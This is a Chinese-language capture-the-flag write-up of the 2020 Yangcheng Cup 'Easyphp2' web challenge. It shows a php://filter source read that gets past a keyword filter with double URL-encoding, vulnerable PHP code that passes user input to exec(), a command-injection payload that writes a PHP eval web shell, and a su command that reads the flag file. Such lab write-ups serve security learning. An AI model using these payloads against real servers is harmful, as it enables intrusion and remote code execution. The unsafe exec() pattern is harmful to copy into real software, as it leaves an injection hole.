




# 羊城杯2020-Easyphp2

首先打开网页


这时看到url

```
http://72d9a265-da5e-41fa-903f-465e8dae5b07.node5.buuoj.cn:81/?file=GWHT.php
```

应该是存在文件包含漏洞，尝试使用php伪协议读取源码

```
?file=php://filter/read=convert.base64-encode/resource=GWHT.php
```

但是发现被过滤了。可能是base64编码被过滤了，可以使用二次url编码绕过，或者更换编码方式

```
base64 二次url编码   %2562%2561%2573%2565%2536%2534
?file=php://filter/read=convert.%2562%2561%2573%2565%2536%2534-encode/resource=GWHT.php


或者使用其他编码读取
?file=php://filter/read=convert.iconv.utf-8.utf-16be/resource=GWHT.php
```

得到GWHT.php的源码了

```
<!DOCTYPE html>
<html lang="en">
 
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>count is here</title>
 
    <style>
 
        html,
        body {
            overflow: none;
            max-height: 100vh;
        }
 
    </style>
</head>
 
<body style="height: 100vh; text-align: center; background-color: green; color: blue; display: flex; flex-direction: column; justify-content: center;">
 
<center> </center>
 
    <?php
    ini_set('max_execution_time', 5);
 
    if ($_COOKIE['pass'] !== getenv('PASS')) {
        setcookie('pass', 'PASS');
        die('<h2>'.'<hacker>'.'<h2>'.'<br>'.'<h1>'.'404'.'<h1>'.'<br>'.'Sorry, only people from GWHT are allowed to access this website.'.'23333');
    }
    ?>
 
    <h1>A Counter is here, but it has someting wrong</h1>
 
    <form>
        <input type="hidden" value="GWHT.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="count" rows=10 cols=50></textarea><br />
        <input type="submit">
    </form>
 
    <?php
    if (isset($_GET["count"])) {
        $count = $_GET["count"];
        if(preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)){
        	die('hacker!');
        }
        echo "<h2>The Count is: " . exec('printf \'' . $count . '\' | wc -c') . "</h2>";
    }
    ?>
 
</body>
 
</html>
```

然后查看robots.txt，访问后得到提示`Disallow: /?file=check.php`

所以方式同上读取`check.php`源码

```
<?php
$pass = "GWHT";
// Cookie password.
echo "Here is nothing, isn't it ?";
 
header('Location: /');
```

然后抓包，发现有一个pass，将pass的值改为GWHT



进入页面



然后根据源码可以知道这里的文本框的内容会赋值给count

```
    <?php
    if (isset($_GET["count"])) {
        $count = $_GET["count"];
        if(preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)){
        	die('hacker!');
        }
        echo "<h2>The Count is: " . exec('printf \'' . $count . '\' | wc -c') . "</h2>";
    }
    ?>
```

并且这里存在命令拼接漏洞，我们可以利用写入shell

```
'|echo "<?=eval($_POST[1])?>" > shell.php'

注意在bp中需要对特殊字符进行url编码
```



查找flag文件`find / -name "flag*"`，发现`/GWHT/system/of/a/down/`

发现属性为0440,我们没有权限打开

在同目录下发现readme文件,内容为HASH值

解密后为GWHTCTF,在终端执行命令
用户名:GWHT  密码:GWHTCTF

```
printf "GWHTCTF" | su - GWHT -c 'cat /GWHT/system/of/a/down/flag.txt'
```

拿到flag




